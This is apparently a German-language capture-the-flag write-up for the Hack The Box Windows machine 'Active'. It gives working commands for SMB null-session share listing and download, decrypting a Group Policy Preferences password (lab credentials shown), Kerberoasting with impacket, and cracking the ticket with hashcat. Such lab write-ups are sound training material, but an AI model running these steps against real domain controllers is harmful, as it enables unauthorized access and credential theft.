 #writeup/provider-box

Erstellt am 2024-07-27
Autor
## Box Info 

| OS      | Typ | Schwierigkeit |
| ------- | --- | ------------- |
| :SiWindows: | Box | Einfach       |

```
name:   active
adress: 
```

---

## Enumeration

Mit `nmap` werden alle offenen Ports enumeriert:

![nmap](res/full_tcp.png)

Die Ergebnisse lassen darauf schließen, dass es sich bei dem Ziel um einen Domänen Controller handelt. Einschlägige Ports sind unter Anderem: 53 DNS, 88 Kerberos, 389 LDAP. Zusätzlich ist noch Port 445 (SMB) offen.

Zum Auflisten der Shares ohne bekannten Zugang kann bei SMBv1 eine NULL-Session verwendet werden. `smbmap` versucht dies automatisch wenn weder Benutzername noch Passwort übermittelt werden. 

#beispiel/smbmap/null-session

```bash
smbmap -d active.htb -H 10.10.10.100 -r
```

![nmap](res/smbmap.png)

Die Auflistung aller Shares zeigt lesende Zugriffsrechte für `Replication` mit etwas Glück handelt es sich hierbei um die Replikation der Domäne oder des Domänen Controllers.  Mit `smbclient` kann der Share exfiltriert werden:

```bash
smbclient -U 'active.htb/%' -N //10.10.10.100/Replication
>mask""
>recurse
>prompt
>mget *
```

Mit `grep -r "active.htb\" .`  können die Dateien schnell nach Keywords durchsucht werden.

In der Datei `active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml` wird ein Service Account referenziert. 

`active.htb\SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

Da es sich um eine Replikation handelt ist kommt vermutlich GPP-basierte Verschlüsselung zum Einsatz. Kali kommt im Default mit dem Tool `gpp-decrypt`, welches die Entschlüsselung übernehmen kann.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

![gpp-decrypt output](res/cracked_creds.png)

<details>
<summary>Spoiler warning</summary>
active.htb\SVC_TGS:GPPstillStandingStrong2k18
</details>

## Foothold

Mit der bekannten Benutzerkennung und dem dazugehörigen Passwort können erneut die Shares aufgelistet werden. Der Benutzer ist Berechtigt auf das `Users` Verzeichnis zuzugreifen.

```bash
smbclient -U 'active.htb\SVC_TGS' --password=GPPstillStandingStrong2k18 //10.10.10.100/Users
```

Im Homeverzeichnis des Benutzers liegt die Userflag.

![usershare](res/user_dir.png)

## Privesc

Um die Berechtigungen weiter zu eskalieren, lohnt es sich nach kerberostable SPNs zu suchen. Die Impacket-Suite bietet ein entsprechendes Tool an. Benötigt wird lediglich ein valider Domänen Account.

#beispiel/kerberoastable-spn

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

![SPN](res/SPN.png)

Um das erlange Administrator Ticket zu cracken kann `hashcat` benutzt werden.

```bash
hashcat admin.ticket -a 0 /usr/share/wordlists/rockyou.txt
```

Zusammen mit dem Passwort kann die rootflag über SMB erlangt werden.

![Rootflag](res/admin_dir.png)

---

## Todo's

- [x] active User Flag ➕ 2024-07-27 ✅ 2024-08-10
- [x] active Root Flag ➕ 2024-07-27 ✅ 2024-08-10
- [x] active pwnd ➕ 2024-07-27 ✅ 2024-08-10